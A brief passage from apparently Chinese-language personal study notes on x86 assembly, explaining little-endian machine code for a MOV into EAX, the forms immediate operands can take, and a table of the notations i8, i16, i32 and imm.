机器码的排列方式说明是小端存储，B8 代表将一个数传递到EAX，33221100H 就是那个数
各种立即数形式
- 十六进制常数
- 字符(ASCII 码值)
- 十进制负数(补码)
- 符号常量
- 表达式
- 变量的偏移地址，标号的偏移地址，例如
Note
立即数本身没有类型，它的类型可以根据对应的寄存器或者变量类型决定
| 符号 | 含义 |
|---|---|
| i8 | 8位立即数 |
| i16 | 16为立即数 |
| i32 | 32位立即数 |
| imm | 立即数 |
Ended: 汇编学习笔记
Ended: CS
Ended: NOTE
My Friends¶
约 89 个字